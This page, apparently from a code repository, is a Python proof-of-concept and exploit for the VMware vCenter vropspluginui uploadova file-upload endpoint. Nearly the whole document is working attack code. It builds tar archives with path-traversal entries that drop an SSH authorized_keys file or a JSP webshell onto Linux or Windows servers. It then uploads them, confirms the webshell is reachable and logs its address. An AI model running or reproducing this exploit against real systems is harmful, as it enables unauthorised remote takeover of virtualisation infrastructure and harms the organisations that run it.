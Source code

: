 

整合的POC&EXP

```python
import requests
import tarfile
import sys
import getopt
requests.packages.urllib3.disable_warnings()


proxy = {}

def poc(target):
	url = (target + '/ui/vropspluginui/rest/services/uploadova').replace('//ui', '/ui')
	web = requests.get(url,verify=False,proxies=proxy)
	if web.status_code == 405:
		return True
	else:
		return False

def payload_linux(filename, payload_type):
	payload_path = '../../home/vsphere-ui/.ssh/authorized_keys' if payload_type=='ssh' else '../../usr/lib/vmware-vsphere-ui/server/work/deployer/s/global/%d/0/h5ngc.war/resources/test.jsp'
	payload_tar = tarfile.open('payload_linux.tar','w')
	for i in range(106):
		payload_tar.add(filename, arcname=payload_path % i)
	payload_tar.close()

def payload_win(filename):
	payload_path = '../../ProgramData/VMware/vCenterServer/data/perfcharts/tc-instance/webapps/statsreport/test.jsp'
	payload_tar = tarfile.open('payload_win.tar','w')
	payload_tar.add(filename, arcname=payload_path)
	payload_tar.close()


def send_payload(target, payload_type):
	url = (target + '/ui/vropspluginui/rest/services/uploadova').replace('//ui', '/ui')
	files = {'uploadFile': ('1.tar', open('payload_linux.tar', 'rb'), 'application/octet-stream')}
	web = requests.post(url, files=files,verify=False,proxies=proxy)
	if web.status_code == 200:
		if web.text == 'SUCCESS':
			if payload_type == 'ssh':
				print('\t文件写入成功')
		if payload_type != 'ssh':
			webshell = (target + '/ui/resources/test.jsp').replace('//ui', '/ui')
			web = requests.get(webshell,verify=False,proxies=proxy)
			if web.status_code != 404:
				print('\twebshell地址：%s' % webshell)
				return True
	files = {'uploadFile': ('1.tar', open('payload_win.tar', 'rb'), 'application/octet-stream')}
	web = requests.post(url, files=files,verify=False,proxies=proxy)
	if web.status_code == 200:
		if web.text == 'SUCCESS':
			print('\t文件写入成功')
			webshell = (target + '/statsreport/test.jsp').replace('//statsreport', '/statsreport')
			web = requests.get(webshell,verify=False,proxies=proxy)
			if web.status_code != 404:
				print('\twebshell地址：%s' % webshell)
				with open("webshell地址.txt", "a+") as fff:
					fff.write('webshell地址：%s \n' % webshell)
				return True
	return False
```